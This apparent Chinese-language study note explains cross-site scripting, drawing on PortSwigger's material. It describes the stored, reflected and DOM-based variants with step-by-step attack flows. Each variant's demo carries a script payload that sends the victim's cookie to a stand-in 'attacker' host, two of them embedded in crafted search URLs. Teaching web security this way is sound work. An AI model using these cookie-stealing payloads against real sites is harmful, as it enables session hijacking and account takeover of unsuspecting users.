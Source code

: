 # https://portswigger.net/web-security/cross-site-scripting

## 定义

跨站点脚本（也称为 XSS）是一种 web 安全漏洞，允许攻击者破坏用户与易受攻击的应用程序之间的交互。它允许攻击者绕过同源策略，该策略旨在将不同的网站彼此隔离。跨站点脚本漏洞通常允许攻击者伪装成受害者用户，执行用户能够执行的任何操作，并访问用户的任何数据。如果受害用户在应用程序中拥有特权访问权限，则攻击者可能能够完全控制应用程序的所有功能和数据

## 存储型

### 注意

恶意代码来自 数据库

### 攻击步骤

攻击者提交了恶意输入，数据库存储了用户输入（含有恶意代码）的数据
前后端都没有过滤/转译用户输入，直接展示到前端页面中
受害者浏览器解析执行了恶意代码

### demo

<script>window.location='http://attacker/?cookie='+document.cookie</script>

被攻击的站点是一个可留言的站点，攻击者在该站点提交了一条评论
受害者访问当前评论页面，浏览器向站点请求对应的页面
服务端应用从数据库中获取对应的评论信息，未经任何转译过滤处理，返回给了浏览器
浏览器解析到攻击者的这条评论时，将其解析为 script 脚本，并执行了这段恶意脚本，将受害者的 cookie 信息发送到攻击者服务器
https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

## 反射型

恶意代码来自 请求 URL

### 攻击步骤

Hacker 制作恶意的 url, 诱使受害者点击
服务端直接将恶意 url 请求中的相关参数，作为 response body 的一部分, 返回给浏览器
受害者浏览器解析执行了恶意代码

### demo

被攻击的站点是一个带有搜索功能的站点，该站点会讲搜索的内容，作为 query 参数添加到 url 中。攻击者利用该站点，制造了一个如下恶意链接，并通过发送邮件，将链接过在页面上等方式，来诱使受害者点击链接
http://website/search?keywork=<script>window.location='http://attacker/?cookie='+document.cookie</script>
受害者点击了恶意链接，访问攻击站点页面，query 中携带恶意参数，浏览器向站点请求对应的页面
服务端应用直接将恶意 url 请求中的 query（未经任何转译过滤处理），作为 response body 的一部分返回给了浏览器
浏览器解析到搜索关键字时，将其解析为 script 脚本，并执行了这段恶意脚本，将受害者的 cookie 信息发送到攻击者服务器

## Dom based

恶意代码未经过 response body 返回，而是在前端代码逻辑中添加执行

### 攻击步骤

Hacker 制作恶意的 url, 诱使受害者点击
前端代码逻辑中，获取恶意 url 中的相关参数，直接（未经任何转译过滤处理）展示到页面中
受害者浏览器解析执行了恶意代码

### Demo

与上一个例子一样：被攻击的站点是一个带有搜索功能的站点，该站点会讲搜索的内容，作为 query 参数添加到 url 中。攻击者利用该站点，制造了一个如下恶意链接，并通过发送邮件，将链接过在页面上等方式，来诱使受害者点击链接
http://website/search?keywork=<script>window.location='http://attacker/?cookie='+document.cookie</script>
受害者点击了恶意链接，访问攻击站点页面，query 中携带恶意参数，浏览器向站点请求对应的页面
服务端应用返回请求的页面（response body 中并没有携带用户输入）
前端应用逻辑中：获取 URL 中的 query（搜索关键字）参数，将其直接插入到了页面中（未经任何转译过滤处理），浏览器解析执行了这段恶意脚本，将受害者的 cookie 信息发送到攻击者服务器
